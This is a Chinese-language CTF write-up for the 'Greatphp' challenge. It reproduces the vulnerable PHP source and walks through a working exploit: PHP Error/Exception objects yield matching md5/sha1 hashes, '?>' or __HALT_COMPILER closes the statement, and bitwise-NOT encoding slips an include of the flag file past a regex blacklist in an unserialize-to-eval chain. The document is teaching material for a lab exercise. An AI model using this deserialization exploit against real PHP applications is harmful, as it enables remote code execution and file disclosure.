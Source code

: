 # \[极客大挑战 2020]Greatphp

## \[极客大挑战 2020]Greatphp

## 考点

* 利用PHP内置类Error和Exception反序列化绕过hash
* 利用PHP内置类Error和Exception反序列化命令执行
* 取反绕过代码执行黑名单

## wp

PHP内置类Error和Exception反序列化利用

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}
if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}
?>
```

md5()和sha1()会触发类的`__toString()`函数，对于这个hash碰撞可以使用Error或Exception类绕过

```php
$ex1 = new Exception('testtesttest');$ex2 = new Exception('testtesttest',1); // 同一行

var_dump(md5($ex1)===md5($ex2));
echo "<br>";
var_dump(sha1($ex1)===sha1($ex2));
echo "<br>";

echo $ex1."<br>";
echo $ex2."<br>";
```

得到的结果如下，并且输入也原封不动的返回了。那么如果在输入中闭合PHP语句，就能让`eval($ex1)`执行任意代码

闭合语句可以使用`__HALT_COMPILER()` 终止对后面语句的编译，也可以使用`?><?php ?>` 闭合语句

```
bool(true)
bool(true)
Exception: testtesttest in D:\ctf\tools\PhPStudy\WWW\error\2.php:4 Stack trace: #0 {main}
Exception: testtesttest in D:\ctf\tools\PhPStudy\WWW\error\2.php:4 Stack trace: #0 {main}
```

使用Error类的方法如下

```php
$ex1 = new Error('testtesttest',1);$ex2 = new Error('testtesttest',2); // 同一行
var_dump(md5($ex1)===md5($ex2));
echo "<br>";
var_dump(sha1($ex1)===sha1($ex2));
echo "<br>";

echo $ex1."<br>";
echo $ex2."<br>";
```

结果

```
bool(true)
bool(true)
Error: testtesttest in D:\ctf\tools\PhPStudy\WWW\error\2.php:5 Stack trace: #0 {main}
Error: testtesttest in D:\ctf\tools\PhPStudy\WWW\error\2.php:5 Stack trace: #0 {main}
```

简化的题目如下

```php
<?php
class WTF {
        function __destruct(){
            if( ($this->var1 != $this->var2) && (md5($this->var1) === md5($this->var2)) && (sha1($this->var1)=== sha1($this->var2)) ){
               eval($this->var1);
   }
        }
    }
unserialize($_GET[1]);
?>
```

那么最后可以执行代码的payload

```php
$payload = "?><?php echo 111;?>";
$payload = "echo 111;?>";
$payload = "echo 123;__HALT_COMPILER();";
$ex1 = new Exception($payload);$ex2 = new Exception($payload,1); // 同一行
$ex1 = new Error($payload,1);$ex2 = new Error($payload,2); // 同一行
```

回到本题，绕过hash之后需要绕过正则`if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match))` ，即传入的参数不能有`<?php` 和`()"'` 而PHP里面可以不用括号执行的只要文件包含，又不能带单双引号，那就只能通过编码绕过了，就只剩下了取反绕过

```php
<?php
class SYCLOVER {
    public $syc;
    public $lover;
}

$payload = "include ~".urldecode("%D0%99%93%9E%98")."?>";
$ex1 = new Error($payload,1);$ex2 = new Error($payload,2); // 同一行
$wtf = new SYCLOVER();
$wtf->syc = $ex1;
$wtf->lover = $ex2;

echo urlencode(serialize($wtf));
```

## 小结

1. `if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){eval($this->syc);}` 这种使用include+取反

